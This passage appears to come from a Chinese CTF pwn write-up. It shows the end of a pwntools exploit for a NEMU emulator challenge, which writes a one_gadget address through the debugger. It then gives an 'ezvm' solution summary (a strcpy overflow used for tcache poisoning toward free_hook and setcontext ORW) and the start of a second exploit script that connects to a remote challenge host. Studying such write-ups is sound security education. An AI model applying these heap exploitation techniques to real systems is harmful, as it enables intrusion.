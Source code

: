 ```Python
    lg('addr',addr)

    fh = 0x60f0a8
    one = addr + 0x4527a # 0x45226 0xf03a4 0xf1247
    #=============================
    set(0x86A3FC0-pmem, fh-0x30)
    set(0x86A3FC0-pmem + 4, (fh-0x30)>>32)
    raw_input()
    sla("(nemu) ",'w 0x'+hex(one)[6:])

    
    lg('one',one)


    # set(pay,1)
    # dbg()
    # choice('set '+pay)

    it()
if __name__ == '__main__':
        exp()


# cmd_table [] = {
#   { "help", "Display informations about all supported commands", cmd_help },
#   { "c", "Continue the execution of the program", cmd_c },
#   { "q", "Exit NEMU", cmd_q },
#   { "si", "Execute the step by one", cmd_si},

#   /* TODO: Add more commands */
#   { "info", "Show all the regester' information", cmd_info },
#   { "x", "Show the memory things", cmd_x },
#   { "p", "Show varibeals and numbers", cmd_p },
#   { "w", "Set the watch point", cmd_w },
#   { "d", "Delete the watch point", cmd_d },
#   {"set", "Set memory", cmd_set}
# };
```





## **ezvm**

strcpy上溢出，改tcache fd指向free_hook,改free_hook为setcontext orw

```Python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal=['tmux', 'splitw', '-h']
prog = './easyvm'
#elf = ELF(prog)#nc 121.36.194.21 49155
#p = process(prog)#,env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF("./libc-2.31.so")
p = remote("120.24.82.252",23089)#nc 124.71.130.185 49155
def debug(addr,PIE=True): 
        debug_str = ""
        if PIE:
                text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16) 
                for i in addr:
                        debug_str+='b *{}\n'.format(hex(text_base+i))
```